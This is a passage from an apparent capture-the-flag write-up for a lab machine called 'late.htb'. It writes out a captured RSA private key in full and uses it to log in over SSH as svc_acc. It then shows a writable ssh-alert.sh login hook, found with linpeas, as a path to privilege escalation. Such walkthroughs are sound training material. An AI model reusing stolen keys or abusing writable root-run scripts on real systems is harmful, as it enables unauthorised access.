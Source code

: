 
copy it into a file and connect:

```bash
[werz@ctf01 user]$ echo "-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----" > id_rsa
[werz@ctf01 user]$ chmod 600 id_rsa 
[werz@ctf01 user]$ ssh -i id_rsa svc_acc@late.htb
```

After connecting if we check the `/usr/local/sbin` directory we notice a file `ssh-alert.sh` ( linpeas says it also ) that looks interesting we own it also by **svc_acc** user.

```bash
svc_acc@late:/usr/local/sbin$ cat ssh-alet.sh 
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```
